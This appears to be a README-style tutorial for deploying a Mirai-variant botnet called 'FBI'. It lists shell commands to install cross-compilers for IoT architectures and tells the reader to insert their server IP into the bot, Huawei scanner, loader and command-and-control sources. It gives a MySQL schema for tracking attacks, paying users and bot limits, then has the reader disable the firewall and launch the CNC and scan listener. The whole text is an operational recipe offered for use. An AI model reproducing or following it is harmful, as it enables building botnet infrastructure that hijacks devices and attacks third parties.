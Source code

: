 # FBI-BOTNET-MIRAI 
# CentOS 6 required
 ______________________
|                      |
|  Tutorial by FBI
|______________________|

yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

mkdir /etc/xcompile
cd /etc/xcompile 
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxvf cross-compiler-i686.tar.bz2
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-i686 i686
cd /tmp
wget https://dl.google.com/go/go1.9.4.linux-amd64.tar.gz -q
tar -xvf go1.9.4.linux-amd64.tar.gz
mv go /usr/local
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
go version
go env
cd ~/
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords

// Now after that we have to setup the bot.
// You will see " PUT YOUR IP HERE "
// Change that with your server IP.

 CHANGE IP(s) IN /bot/huawei_scanner.c
 CHANGE IP(s) IN /bot/main.c
 CHANGE IP(s) IN /scanListen.go
 CHANGE IP(s) IN /dlr/main.c -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /loader/src/headers/config.h
 CHANGE IP(s) IN /loader/src/main.c
 CHANGE IP(s) IN /cnc/main.go


// We will setup the database, run these commands on your terminal:

service mysqld restart
mysql_secure_installation

// Now Login with your mysql pass by running this command:

mysql -u root -p

// Now we will add the database, copy and paste this on your terminal:

CREATE DATABASE FBI;
use FBI;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'Username', 'Password', 0, 0, 0, 0, -1, 1, 30, '');
exit;

// Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mysqld restart

// Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 777 *
sh build.sh

nano /usr/include/bits/typesizes.h
scroll down and edit the 1024 to 999999
THEN SAVE IT 
ulimit -n999999; ulimit -u999999; ulimit -e999999


// Now compile the loader
cd loader/
sh build.sh


//Now screen the cnc
cd release/
screen ./cnc

//Then
into the loader directory run:
screen -s scanListen ./scanListen

FBI Mirai Port: 2310
